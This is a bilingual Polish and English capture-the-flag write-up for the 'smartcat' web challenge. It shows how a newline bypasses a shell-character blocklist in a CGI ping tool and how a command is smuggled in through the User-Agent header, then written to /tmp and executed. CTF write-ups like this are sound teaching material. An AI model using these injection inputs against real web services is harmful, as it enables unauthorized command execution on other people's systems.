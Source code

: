 ﻿##smartcat (Web, 50+50p)

###PL
[ENG](#eng-version)

W zadaniu dostajemy do dyspozycji webowy interfejs (CGI) pozwalający pignować wskazanego hosta. 
Domyślamy się, że pod spodem operacja jest realizowana jako wywołanie `ping` w shellu z doklejonym podanym przez nas adresem.

#### Smartcat1

Pierwsza część zadania polega na odczytaniu flagi znajdującej się w nieznanym pliku, więc wymaga od nas jedynie możliwości czytania plików.
Operatory:

	$;&|({` \t 

są zablokowane, ale zauważamy, że znak nowej linii `\n` jest wyjątkiem.
Możemy dzięki temu wykonać dowolną komendę podając na wejściu np.

`localhost%0Als`

Co zostanie potraktowane jako 2 osobne komendy - `ping localhost` oraz `ls`

Wywołanie `ls` pozwala stwierdzić, że w bierzącym katalogu jest katalog `there`, ale nie mamy możliwości listować go bez użycia spacji. Po chwili namysłu wpadliśmy na pomysł żeby użyć programu `find` który dał nam:

```
.
./index.cgi
./there
./there/is
./there/is/your
./there/is/your/flag
./there/is/your/flag/or
./there/is/your/flag/or/maybe
./there/is/your/flag/or/maybe/not
./there/is/your/flag/or/maybe/not/what
./there/is/your/flag/or/maybe/not/what/do
./there/is/your/flag/or/maybe/not/what/do/you
./there/is/your/flag/or/maybe/not/what/do/you/think
./there/is/your/flag/or/maybe/not/what/do/you/think/really
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag
```

Pozostało nam tylko wywołać `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag` i uzyskać flagę:

`INS{warm_kitty_smelly_kitty_flush_flush_flush}`

#### Smartcat2

Druga część zadania jest trudniejsza, ponieważ treść sugeruje, że musimy odczytać flagę przez coś znajdującego się w katalogu `/home/smartcat/` oraz, że potrzebny będzie do tego shell.
Zauważamy po pewnym czasie, że możemy tworzyć pliki w katalogu `/tmp`. 
Możemy także uruchamiać skrypty shell przez `sh<script.sh`, ale nadal mieliśmy problem z tym, jak umieścić w skrypcie interesującą nas zawartość.
Wreszcie wpadliśmy na to, że istnieją pewne zmienne, na których zawartość możemy wpłynąć - nagłówki http.
W szczególności możemy w dowolny sposób ustawić swój `user-agent`. 
Następnie możemy zawartość zmiennych środowiskowych wypisać przez `env` a wynik tej operacji zrzucić do pliku w `tmp`, a potem uruchomić przez `sh</tmp/ourfile`.

Pierwsza próba zawierająca user-agent: `a; echo "koty" >/tmp/msm123; a` zakończyła się sukcesem. 

Mogliśmy więc z powodzeniem wykonać dowolny kod, w tym użyć `nc` lub `pythona` do postawienia reverse-shell. Zamiast tego najpierw wylistowaliśmy katalog `/home/smartcat/` znajdując tam program `readflag`, który przed podaniem flagi wymagał uruchomienia, odczekania kilku sekund i przesłania komunikatu.
Wysłaliśmy więc na serwer skrypt, który wykonywał właśnie te czynności z podanym programem i dostaliśmy:

	Flag:
				___
			.-"; ! ;"-.
		  .'!  : | :  !`.
		 /\  ! : ! : !  /\
		/\ |  ! :|: !  | /\
	   (  \ \ ; :!: ; / /  )
	  ( `. \ | !:|:! | / .' )
	  (`. \ \ \!:|:!/ / / .')
	   \ `.`.\ |!|! |/,'.' /
		`._`.\\\!!!// .'_.'
		   `.`.\\|//.'.'
			|`._`n'_.'|  hjw
			"----^----"

`INS{shells_are _way_better_than_cats}`

###ENG version

In the task we get a web interface (CGI) for pinging selected host.
We predict that underneath this is calling `ping` from shell with adress we give.

#### Smartcat1-eng

First part of the task requires reading a flag residing in an unknown file, so we only need to be able to read files.
In the web interface characters 
	
	$;&|({` \t

are blocked, but we notice that newline character `\n` or `%0A` is an exception.
Thanks to that we can execute any command we want by using input:

`localhost%0Als`

This will be executed as 2 separate commands - `ping localhost` and `ls`

Calling `ls` shows us that in currend directory there is a `there` directory, but we can't list it since we can't use space. After a while we figure that we could use `find` which gived us:

	.
	./index.cgi
	./there
	./there/is
	./there/is/your
	./there/is/your/flag
	./there/is/your/flag/or
	./there/is/your/flag/or/maybe
	./there/is/your/flag/or/maybe/not
	./there/is/your/flag/or/maybe/not/what
	./there/is/your/flag/or/maybe/not/what/do
	./there/is/your/flag/or/maybe/not/what/do/you
	./there/is/your/flag/or/maybe/not/what/do/you/think
	./there/is/your/flag/or/maybe/not/what/do/you/think/really
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
	./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag


We call: `cat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag` and get flag:

`INS{warm_kitty_smelly_kitty_flush_flush_flush}`

#### Smartcat2-eng

Second part is more difficult, since we task suggests we need to get the flag using something in `/home/smartcat/` dir and that we will need a shell for that.
After some work we notice that we can create files in `/tmp`.
We can also call shellscripts by `sh<scrupt.sh`, but we still didn't know how to place data we want inside the file.
Finally we figured that there are some environmental variables that we can set - http headers.
In particular we can set `user-agent` to any value we want.
We can then list those variables by `env` and save result of this operation to a file in `/tmp` and then run with `sh</tmp/ourfile`.

First attempt containing: `a; echo "koty" >/tmp/msm123; a` was successful.

Therefore, we could execute any code, including using `nc` or `python` to set a reverse-shell. Instead we started with listing `/home/smartcat/` directory, finding `readflag` binary, which requires us to execute it, wait few seconds and then send some message to get the flag.
Instead of the shell we simply sent a script which was doing exactly what `readflag` wanted and we got:

	Flag:
				___
			.-"; ! ;"-.
		  .'!  : | :  !`.
		 /\  ! : ! : !  /\
		/\ |  ! :|: !  | /\
	   (  \ \ ; :!: ; / /  )
	  ( `. \ | !:|:! | / .' )
	  (`. \ \ \!:|:!/ / / .')
	   \ `.`.\ |!|! |/,'.' /
		`._`.\\\!!!// .'_.'
		   `.`.\\|//.'.'
			|`._`n'_.'|  hjw
			"----^----"

`INS{shells_are _way_better_than_cats}`

